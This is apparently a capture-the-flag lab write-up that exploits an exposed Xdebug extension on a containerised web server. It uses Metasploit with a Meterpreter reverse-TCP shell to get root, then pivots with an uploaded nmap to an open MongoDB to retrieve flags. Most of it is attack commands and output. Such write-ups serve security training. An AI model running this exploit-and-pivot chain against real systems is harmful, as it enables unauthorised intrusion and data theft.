



#### 2. Attacking Microservice Containers II

----


- A web portal is running in a containerized environment and follows microservice architecture. However, the web server hosting the web portal has a well-known debugging extension enabled which can be used to get a shell on the machine. Also, there are two flags hidden in the environment.
- Objective: Exploit the vulnerability to get a shell on the target machine and retrieve all two flags!

----

```sh
root@attackdefense:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2333: eth0@if2334: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:01:01:05 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.1.5/24 brd 10.1.1.255 scope global eth0
       valid_lft forever preferred_lft forever
2337: eth1@if2338: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:0c:65:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.12.101.2/24 brd 192.12.101.255 scope global eth1
       valid_lft forever preferred_lft forever
root@attackdefense:~# 
```

```sh
root@attackdefense:~# nmap 192.12.101.2/24
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-25 13:29 IST
Nmap scan report for 192.12.101.1
Host is up (0.0000080s latency).
Not shown: 998 closed ports
PORT   STATE    SERVICE
22/tcp open     ssh
80/tcp filtered http
MAC Address: 02:42:A3:AC:C3:F9 (Unknown)

Nmap scan report for gdr4o3jnnvpln6ziapdfk05ez.temp-network_a-12-101 (192.12.101.3)
Host is up (0.000013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:C0:0C:65:03 (Unknown)

Nmap scan report for attackdefense.com (192.12.101.2)
Host is up (0.0000060s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
8009/tcp open  ajp13

Nmap done: 256 IP addresses (3 hosts up) scanned in 16.46 seconds
root@attackdefense:~# 
```

```
http://192.12.101.3/
http://192.12.101.3/phpinfo.php
```







```sh
root@attackdefense:~# msfconsole 
msf5 > search xdebug

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   1  exploit/unix/http/xdebug_unauth_exec  2017-09-17       excellent  Yes    xdebug Unauthenticated OS Command Execution


msf5 > use exploit/unix/http/xdebug_unauth_exec
msf5 exploit(unix/http/xdebug_unauth_exec) > show options 

Module options (exploit/unix/http/xdebug_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PATH     /index.php       yes       Path to target webapp
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       Callback host for accepting connections
   SRVPORT  9000             yes       Port to listen for the debugger
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/http/xdebug_unauth_exec) > set RHOSTS 192.12.101.3
RHOSTS => 192.12.101.3
msf5 exploit(unix/http/xdebug_unauth_exec) > set LHOST 192.12.101.2
LHOST => 192.12.101.2
msf5 exploit(unix/http/xdebug_unauth_exec) > exploit 

[*] Started reverse TCP handler on 192.12.101.2:4444 
[*] 192.12.101.3:80 - Waiting for client response.
[*] 192.12.101.3:80 - Receiving response
[*] 192.12.101.3:80 - Shell might take upto a minute to respond.Please be patient.
[*] 192.12.101.3:80 - Sending payload of size 2026 bytes
[*] Sending stage (38247 bytes) to 192.12.101.3
[*] Meterpreter session 1 opened (192.12.101.2:4444 -> 192.12.101.3:51062) at 2019-07-25 13:35:05 +0530


meterpreter > getuid 
Server username: root (0)
meterpreter > shell
Process 38 created.
Channel 0 created.

find / -name *flag*
/var/www/html/0015019ef4-flag

cat /var/www/html/0015019ef4-flag
0015019ef42c44bdd9b7ded5af35a33b

^C
Terminate channel 0? [y/N]  y
meterpreter > 
```

```sh
root@attackdefense:~# cd Desktop/tools/portable/nmap/
root@attackdefense:~/Desktop/tools/portable/nmap# ls -l
total 7568
-rwxr-xr-x 1 root root 6730184 Mar 27  2018 nmap
-rw-r--r-- 1 root root   14461 May 14 19:43 nmap-payloads
-rw-r--r-- 1 root root  998635 May 14 19:43 nmap-services
root@attackdefense:~/Desktop/tools/portable/nmap# pwd
/root/Desktop/tools/portable/nmap
root@attackdefense:~/Desktop/tools/portable/nmap# 
```

```sh
meterpreter > upload /root/Desktop/tools/portable/nmap /tmp/
[*] uploading  : /root/Desktop/tools/portable/nmap/nmap-payloads -> /tmp//nmap-payloads
[*] uploaded   : /root/Desktop/tools/portable/nmap/nmap-payloads -> /tmp//nmap-payloads
[*] uploading  : /root/Desktop/tools/portable/nmap/nmap -> /tmp//nmap
[*] uploaded   : /root/Desktop/tools/portable/nmap/nmap -> /tmp//nmap
[*] uploading  : /root/Desktop/tools/portable/nmap/nmap-services -> /tmp//nmap-services
[*] uploaded   : /root/Desktop/tools/portable/nmap/nmap-services -> /tmp//nmap-services
meterpreter > 
```

```sh
meterpreter > shell
Process 42 created.
Channel 4 created.

ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.12.101.3  netmask 255.255.255.0  broadcast 192.12.101.255
        ether 02:42:c0:0c:65:03  txqueuelen 0  (Ethernet)
        RX packets 2072  bytes 7951825 (7.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1393  bytes 231937 (231.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.133.238.2  netmask 255.255.255.0  broadcast 192.133.238.255
        ether 02:42:c0:85:ee:02  txqueuelen 0  (Ethernet)
        RX packets 28  bytes 2152 (2.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 18478  bytes 1980384 (1.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 18478  bytes 1980384 (1.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


cd /tmp/

ls -l
total 7576
-rw-r--r-- 1 root root 6730184 Jul 25 13:42 nmap
-rw-r--r-- 1 root root   14461 Jul 25 13:42 nmap-payloads
-rw-r--r-- 1 root root  998635 Jul 25 13:42 nmap-services
drwx------ 2 root root    4096 May 14 16:55 tmpd9wmyydc
drwx------ 2 root root    4096 May 14 16:55 tmpwdy9pork

chmod +x nmap 

./nmap 192.133.238.2/24    
Starting Nmap 7.70SVN ( https://nmap.org ) at 2019-07-25 13:44 IST
Nmap scan report for 192.133.238.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.0000090s latency).
Not shown: 998 closed ports
PORT   STATE    SERVICE
22/tcp open     ssh
80/tcp filtered http
MAC Address: 02:42:4B:8E:46:94 (Unknown)

Nmap scan report for gr413bz53yz7ylarlk5cvgyqj.temp-network_b-133-238 (192.133.238.3)
Host is up (0.000014s latency).
All 1000 scanned ports on gr413bz53yz7ylarlk5cvgyqj.temp-network_b-133-238 (192.133.238.3) are closed
MAC Address: 02:42:C0:85:EE:03 (Unknown)

Nmap scan report for victim-1 (192.133.238.2)
Host is up (0.0000060s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 256 IP addresses (3 hosts up) scanned in 16.61 seconds

./nmap -p- 192.133.238.3
Starting Nmap 7.70SVN ( https://nmap.org ) at 2019-07-25 13:45 IST
Nmap scan report for gr413bz53yz7ylarlk5cvgyqj.temp-network_b-133-238 (192.133.238.3)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000013s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE
27017/tcp open  mongod
MAC Address: 02:42:C0:85:EE:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 3.20 seconds

mongo --host 192.133.238.3
MongoDB shell version v3.6.3
connecting to: mongodb://192.133.238.3:27017/
MongoDB server version: 3.6.12
show databases;
admin   0.000GB
config  0.000GB
flag    0.000GB
local   0.000GB
use flag;
switched to db flag
show collections;
flag
db.flag.find()
{ "_id" : "00001", "flag" : "875a9fa8464a4af2cfa0f27f3dc6efb3" }
exit
bye
```

----

###### Reference

- [`microservices`](https://microservices.io/)

----

EOF